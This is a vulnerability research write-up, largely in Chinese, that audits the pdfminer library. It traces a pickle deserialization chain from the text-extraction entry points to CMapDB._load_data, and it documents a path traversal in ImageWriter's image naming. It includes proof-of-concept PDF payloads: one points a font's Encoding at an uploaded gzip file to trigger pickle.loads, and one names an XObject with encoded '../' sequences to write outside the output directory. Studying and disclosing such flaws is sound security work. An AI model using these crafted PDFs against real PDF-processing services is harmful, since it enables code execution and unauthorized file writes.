

Pdfminer code auditing and script development
script path： https://github.com/L1nq0/Pdfminer-CMap-Generator

# CMapDB Deserialization
`cmapdb.py#CMapDB._load_data` 调用 pickle.loads

`_load_data` 传入参数 name 去除空字节，并插入 %s.pickle.gz 中，然后将 cmap_paths 中路径与 filename 拼接；CMAP_PATH 为 cmap 的绝对路径如 /../site-packages/pdfminer/cmap，如果拼接后的文件真实存在，则用 gzip 模块读取并将内容交由 pickle.loads() 反序列化。
要求文件真实存在，文件名写死为 .pickle.gz 后缀且是正确的 gzip 文件体，才会反序列化

```
class CMapDB:
    _cmap_cache: Dict[str, PyCMap] = {}
    _umap_cache: Dict[str, List[PyUnicodeMap]] = {}

    class CMapNotFound(CMapError):
        pass

    @classmethod
    def _load_data(cls, name: str) -> Any:
        name = name.replace("\0", "")
        filename = "%s.pickle.gz" % name
        log.debug("loading: %r", name)
        cmap_paths = (
            os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
            os.path.join(os.path.dirname(__file__), "cmap"),
        )
        for directory in cmap_paths:
            path = os.path.join(directory, filename)
            if os.path.exists(path):
                gzfile = gzip.open(path)
                gzfiles = gzfile.read()
                try:
                    return type(str(name), (), pickle.loads(gzfile.read()))
                finally:
                    gzfile.close()
        raise CMapDB.CMapNotFound(name)
```
## 上游调用路径分析
CMAP_PATH 与 /usr/share/pdfminer/ 基本不可控，无法往其路径写/传文件，要走进 pickle 必须 name 可控。
往前追踪，`get_cmap(cls, name: str)`方法从缓存中获取 `CMap`，如果缓存中没有，则调用 `_load_data` 来加载 cmap 数据
```
class CMapDB
	 _cmap_cache: Dict[str, PyCMap] = {}
    @classmethod
    def get_cmap(cls, name: str) -> CMapBase:
        if name == "Identity-H":
            return IdentityCMap(WMode=0)
        elif name == "Identity-V":
            return IdentityCMap(WMode=1)
        elif name == "OneByteIdentityH":
            return IdentityCMapByte(WMode=0)
        elif name == "OneByteIdentityV":
            return IdentityCMapByte(WMode=1)
        try:
            return cls._cmap_cache[name]
        except KeyError:
            pass
        data = cls._load_data(name)
        cls._cmap_cache[name] = cmap = PyCMap(name, data)
        return cmap
```
再往前，pdffont.py::PDFCIDFont.get_cmap_from_spec() 调用了 get_cmap
```
class PDFCIDFont(PDFFont):
    def get_cmap_from_spec(self, spec: Mapping[str, Any], strict: bool) -> CMapBase:
        """Get cmap from font specification

        For certain PDFs, Encoding Type isn't mentioned as an attribute of
        Encoding but as an attribute of CMapName, where CMapName is an
        attribute of spec['Encoding'].
        The horizontal/vertical modes are mentioned with different name
        such as 'DLIdent-H/V','OneByteIdentityH/V','Identity-H/V'.
        """
        cmap_name = self._get_cmap_name(spec, strict)

        try:
            return CMapDB.get_cmap(cmap_name)
        except CMapDB.CMapNotFound as e:
            if strict:
                raise PDFFontError(e)
            return CMap()
```
cmap_name 属性受 `_get_cmap_name()` 控制，进入该方法。spec 是一个字典对象，键是 `str` 类型，值的类型是任意的 Any；
get_cmap_from_spec 会从 spec 中提取 Encoding 键下的 cmap 名称。如果 Encoding 中包含 CMapName 键，则该键的值会作为 cmap 名称传递给 get_cmap 方法。
```
class PDFCIDFont(PDFFont):
    def _get_cmap_name(spec: Mapping[str, Any], strict: bool) -> str:
        """Get cmap name from font specification"""
        cmap_name = "unknown"  # default value

        try:
            spec_encoding = spec["Encoding"]
            if hasattr(spec_encoding, "name"):
                cmap_name = literal_name(spec["Encoding"])
            else:
                cmap_name = literal_name(spec_encoding["CMapName"])
        except KeyError:
            if strict:
                raise PDFFontError("Encoding is unspecified")

        if type(cmap_name) is PDFStream:  # type: ignore[comparison-overlap]
            cmap_name_stream: PDFStream = cast(PDFStream, cmap_name)
            if "CMapName" in cmap_name_stream:
                cmap_name = cmap_name_stream.get("CMapName").name
            else:
                if strict:
                    raise PDFFontError("CMapName unspecified for encoding")

        return IDENTITY_ENCODER.get(cmap_name, cmap_name)
```
此时参数传递从 `spec['Encoding'] -> cmap_name -> name`，如果 spec 可控则能影响 cmap 打开的文件名。
继续往上追踪，PDFCIDFont 类初始化时调用了 get_cmap_from_spec，`__init__`初始化定义了一些对象和属性，继续往上追 spec

在 pdfinterp.py::PDFResourceManager.get_font() 找到相关操作，subtype 被赋值为 `spec['Subtype']`，如果其是 CIDFontType0、CIDFontType2 任意之一，则实例化 PDFCIDFont。关键就在 `spec`，但其谁控制仍未知，抱着疑惑继续往前追

init_resources() 先赋值 resources 字典，如果值为 Font 且其内部键值属于 PDFObjRef 类或子类，便调用 pdftypes.dict_value(x: object) 将 'Font' 对象中的关键字段一一取出交给 spec，并传给 get_font(objid, spec) 
```
class PDFPageInterpreter:
    def init_resources(self, resources: Dict[object, object]) -> None:
        self.resources = resources
        self.fontmap: Dict[object, PDFFont] = {}
        self.xobjmap = {}
        self.csmap: Dict[str, PDFColorSpace] = PREDEFINED_COLORSPACE.copy()
        if not resources:
            return

        def get_colorspace(spec: object) -> Optional[PDFColorSpace]:
            if isinstance(spec, list):
                name = literal_name(spec[0])
            else:
                name = literal_name(spec)
            if name == "ICCBased" and isinstance(spec, list) and 2 <= len(spec):
                return PDFColorSpace(name, stream_value(spec[1])["N"])
            elif name == "DeviceN" and isinstance(spec, list) and 2 <= len(spec):
                return PDFColorSpace(name, len(list_value(spec[1])))
            else:
                return PREDEFINED_COLORSPACE.get(name)

        for (k, v) in dict_value(resources).items():
            log.debug("Resource: %r: %r", k, v)
            if k == "Font":
                for (fontid, spec) in dict_value(v).items():
                    objid = None
                    if isinstance(spec, PDFObjRef):
                        objid = spec.objid
                    spec = dict_value(spec)
                    self.fontmap[fontid] = self.rsrcmgr.get_font(objid, spec)
            elif k == "ColorSpace":
                for (csid, spec) in dict_value(v).items():
                    colorspace = get_colorspace(resolve1(spec))
                    if colorspace is not None:
                        self.csmap[csid] = colorspace
            elif k == "ProcSet":
                self.rsrcmgr.get_procset(list_value(v))
            elif k == "XObject":
                for (xobjid, xobjstrm) in dict_value(v).items():
                    self.xobjmap[xobjid] = xobjstrm
        return
```
process_page() 将 page.resources 丢给 render_contents() 执行，随后 resources 被传递给 init_resources()，这里的 resources 就是被 dict_value 处理的 Font 对象
```
class PDFPageInterpreter:
    def process_page(self, page: PDFPage) -> None:
        log.debug("Processing page: %r", page)
        (x0, y0, x1, y1) = page.mediabox
        if page.rotate == 90:
            ctm = (0, -1, 1, 0, -y0, x1)
        elif page.rotate == 180:
            ctm = (-1, 0, 0, -1, x1, y1)
        elif page.rotate == 270:
            ctm = (0, 1, -1, 0, y1, -x0)
        else:
            ctm = (1, 0, 0, 1, -x0, -y0)
        self.device.begin_page(page, ctm)
        self.render_contents(page.resources, page.contents, ctm=ctm)
        self.device.end_page(page)
        return

    def render_contents(
        self,
        resources: Dict[object, object],
        streams: Sequence[object],
        ctm: Matrix = MATRIX_IDENTITY,
    ) -> None:
        log.debug(
            "render_contents: resources=%r, streams=%r, ctm=%r", resources, streams, ctm
        )
        self.init_resources(resources)
        self.init_state(ctm)
        self.execute(list_value(streams))
        return
```
最后追到入口点，一共找到两个
- high_level.py::extract_pages()
- high_level.py::extract_text()
这两个方法都用于从 PDF 文件中提取信息，本身就是 Pdfminer 与外部交互的主要入口，利用链到此到头
```
def extract_text(
    pdf_file: FileOrName,
    password: str = "",
    page_numbers: Optional[Container[int]] = None,
    maxpages: int = 0,
    caching: bool = True,
    codec: str = "utf-8",
    laparams: Optional[LAParams] = None,
) -> str:
    """Parse and return the text contained in a PDF file.

    :param pdf_file: Either a file path or a file-like object for the PDF file
        to be worked on.
    :param password: For encrypted PDFs, the password to decrypt.
    :param page_numbers: List of zero-indexed page numbers to extract.
    :param maxpages: The maximum number of pages to parse
    :param caching: If resources should be cached
    :param codec: Text decoding codec
    :param laparams: An LAParams object from pdfminer.layout. If None, uses
        some default settings that often work well.
    :return: a string containing all of the text extracted.
    """
    if laparams is None:
        laparams = LAParams()

    with open_filename(pdf_file, "rb") as fp, StringIO() as output_string:
        fp = cast(BinaryIO, fp)  # we opened in binary mode
        rsrcmgr = PDFResourceManager(caching=caching)
        device = TextConverter(rsrcmgr, output_string, codec=codec, laparams=laparams)
        interpreter = PDFPageInterpreter(rsrcmgr, device)

        for page in PDFPage.get_pages(
            fp,
            page_numbers,
            maxpages=maxpages,
            password=password,
            caching=caching,
        ):
            interpreter.process_page(page)

        return output_string.getvalue()


def extract_pages(
    pdf_file: FileOrName,
    password: str = "",
    page_numbers: Optional[Container[int]] = None,
    maxpages: int = 0,
    caching: bool = True,
    laparams: Optional[LAParams] = None,
) -> Iterator[LTPage]:
    """Extract and yield LTPage objects

    :param pdf_file: Either a file path or a file-like object for the PDF file
        to be worked on.
    :param password: For encrypted PDFs, the password to decrypt.
    :param page_numbers: List of zero-indexed page numbers to extract.
    :param maxpages: The maximum number of pages to parse
    :param caching: If resources should be cached
    :param laparams: An LAParams object from pdfminer.layout. If None, uses
        some default settings that often work well.
    :return: LTPage objects
    """
    if laparams is None:
        laparams = LAParams()

    with open_filename(pdf_file, "rb") as fp:
        fp = cast(BinaryIO, fp)  # we opened in binary mode
        resource_manager = PDFResourceManager(caching=caching)
        device = PDFPageAggregator(resource_manager, laparams=laparams)
        interpreter = PDFPageInterpreter(resource_manager, device)
        for page in PDFPage.get_pages(
            fp,
            page_numbers,
            maxpages=maxpages,
            password=password,
            caching=caching,
        ):
            interpreter.process_page(page)
            layout = device.get_result()
            yield layout
```
溯源整个流程，从 extract_ 双方法开始。PDFPage.get_pages() 会通过 PDFParser 解析 PDF 文件，并生成一个 PDFDocument 对象。这个对象包含了文档的结构和元数据。然后迭代文档中的每一页，并调用 create_pages(doc) 来生成具体的页面对象。然后提取的 PDF 元数据交给下游方法处理
```
class PDFPage:
    def get_pages(
        cls,
        fp: BinaryIO,
        pagenos: Optional[Container[int]] = None,
        maxpages: int = 0,
        password: str = "",
        caching: bool = True,
        check_extractable: bool = False,
    ) -> Iterator["PDFPage"]:
        parser = PDFParser(fp)
        doc = PDFDocument(parser, password=password, caching=caching)
        if not doc.is_extractable:
            if check_extractable:
                error_msg = "Text extraction is not allowed: %r" % fp
                raise PDFTextExtractionNotAllowed(error_msg)
            else:
                warning_msg = (
                    "The PDF %r contains a metadata field "
                    "indicating that it should not allow "
                    "text extraction. Ignoring this field "
                    "and proceeding. Use the check_extractable "
                    "if you want to raise an error in this case" % fp
                )
                log.warning(warning_msg)
        for pageno, page in enumerate(cls.create_pages(doc)):
            if pagenos and (pageno not in pagenos):
                continue
            yield page
            if maxpages and maxpages <= pageno + 1:
                break
```
## 利用链
```
high_level.py::extract_pages()/extract_text()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFCIDFont.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFCIDFont.get_cmap_from_spec(spec, strict)
							cmapdb.py::CMapDB.get_cmap(cmap_name)
								cmapdb.py::CMapDB._load_data(name)
```
将 PDF Font 对象关键字段定义好，Type = Type0、Subtype = CIDFontType0 or CIDFontType2、Encoding = GZIP 文件绝对路径，同时绝对路径中 `/`需要替换为 `#2F`，并使用 extract_pages()/extract_text() 操作 PDF 文件，Pdfminer 就会读取 GZIP 内容并反序列化
PDF 格式体利用示例
```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 5 0 R >> >> /Contents 4 0 R >>
endobj

4 0 obj
<< /Length 22 >>
stream
BT /F1 12 Tf (A) Tj ET
endstream
endobj

5 0 obj
<< /Type /Font /Subtype /Type0 /BaseFont /Identity-H /Encoding /app/uploads/l1 /DescendantFonts [6 0 R] >>
endobj

6 0 obj
<< /Type /Font /Subtype /CIDFontType2 /BaseFont /Dummy /CIDSystemInfo << /Registry (Adobe) /Ordering (Identity) /Supplement 0 >> >>
endobj

xref
0 7
0000000000 65535 f 
0000000010 00000 n 
0000000077 00000 n 
0000000176 00000 n 
0000000273 00000 n 
0000000325 00000 n 
0000000375 00000 n 
trailer
<< /Size 7 /Root 1 0 R >>
startxref
410
%%EOF
```
# Path Traversal in ImageWriter
在看 Pdfminer 的图片提取与写入功能时发现的逻辑缺陷，虽然没软用简单扯一嘴
当使用 Pdfminer 提取 PDF 中的图片时，通常可以这样调用

```
for page in extract_pages(pdf_file):
	for element in page:
		if isinstance(element, LTFigure):
			for item in element:
				if isinstance(item, LTImage):
					result = writer.export_image(item)
```
Pdfminer 会将 PDF 中的图片保存到指定目录。但问题来了，保存时文件名经过怎样的处理呢？
通过阅读源码，我发现了关键的逻辑在`ImageWriter.create_unique_image_name`中：

```
def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
	name = image.name + ext
	path = os.path.join(self.outdir, name)
	img_index = 0
	while os.path.exists(path):
		name = "%s.%d%s" % (image.name, img_index, ext)
		path = os.path.join(self.outdir, name)
		img_index += 1
	return name, path
```
`_create_unique_image_name` 在处理 PDF 文件中的图片资源时，直接使用了 XObject 的名称作为输出文件名的一部分，与输出路径 outdir 拼接形成新路径，没有做精细校验，与上面分析类似 PDF 可控则 image.name 可控
Pdfminer 解析并创建 LTImage 对象，其 name 属性赋值为指定路径，`export_image` 是操作入口

```
class ImageWriter:
    def export_image(self, image: LTImage) -> str:
        """Save an LTImage to disk"""
        (width, height) = image.srcsize

        filters = image.stream.get_filters()

        if filters[-1][0] in LITERALS_DCT_DECODE:
            name = self._save_jpeg(image)

        elif filters[-1][0] in LITERALS_JPX_DECODE:
            name = self._save_jpeg2000(image)

        elif self._is_jbig2_iamge(image):
            name = self._save_jbig2(image)

        elif image.bits == 1:
            name = self._save_bmp(image, width, height, (width + 7) // 8, image.bits)

        elif image.bits == 8 and (
            LITERAL_DEVICE_RGB in image.colorspace
            or LITERAL_INLINE_DEVICE_RGB in image.colorspace
        ):
            name = self._save_bmp(image, width, height, width * 3, image.bits * 3)

        elif image.bits == 8 and (
            LITERAL_DEVICE_GRAY in image.colorspace
            or LITERAL_INLINE_DEVICE_GRAY in image.colorspace
        ):
            name = self._save_bmp(image, width, height, width, image.bits)

        elif len(filters) == 1 and filters[0][0] in LITERALS_FLATE_DECODE:
            name = self._save_bytes(image)

        else:
            name = self._save_raw(image)

        return name
```
获取到文件名及路径后，Pdfminer 直接用 path 路径将写入文件 fp.write，假设 path 为 /x/x/uploads/../../../tmp/l1.jpg，就能进行跨目录写文件
```
def _save_jpeg(self, image: LTImage) -> str:
	"""Save a JPEG encoded image"""
	data = image.stream.get_data()

	name, path = self._create_unique_image_name(image, ".jpg")
	with open(path, "wb") as fp:
		if LITERAL_DEVICE_CMYK in image.colorspace:
			try:
				from PIL import Image, ImageChops  # type: ignore[import]
			except ImportError:
				raise ImportError(PIL_ERROR_MESSAGE)

			ifp = BytesIO(data)
			i = Image.open(ifp)
			i = ImageChops.invert(i)
			i = i.convert("RGB")
			i.save(fp, "JPEG")
		else:
			fp.write(data)

	return name
```
如果控制 PDF 内的 XObject 名称，是否就可控写入？我构造一个恶意 PDF 来完成构想
```
3 0 obj
<< 
  /Type /Page 
  /Resources << 
    /XObject << 
      /#2E#2E#2F#2E#2E#2F#2E#2E#2F#2E#2E#2Ftmp#2Fpwned 4 0 R 
    >> 
  >> 
>>
...
```
path 成功控制为指定内容

便写入成功了

Python 的环境限制大，不像 PHP 可以直接解析执行代码，应用环境特别狭窄，只有某些情况下打 XSS 等，没危害；并且这里后缀名也是强制拼接，无法控制

```
name, path = self._create_unique_image_name(image, ".jpg")
  =>
	def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
        name = image.name + ext
        path = os.path.join(self.outdir, name)
        img_index = 0
        while os.path.exists(path):
            name = "%s.%d%s" % (image.name, img_index, ext)
            path = os.path.join(self.outdir, name)
            img_index += 1
        return name, path
    ...
    @staticmethod
    def _is_jbig2_iamge(image: LTImage) -> bool:
        filters = image.stream.get_filters()
        for filter_name, params in filters:
            if filter_name in LITERALS_JBIG2_DECODE:
                return True
        return False
```
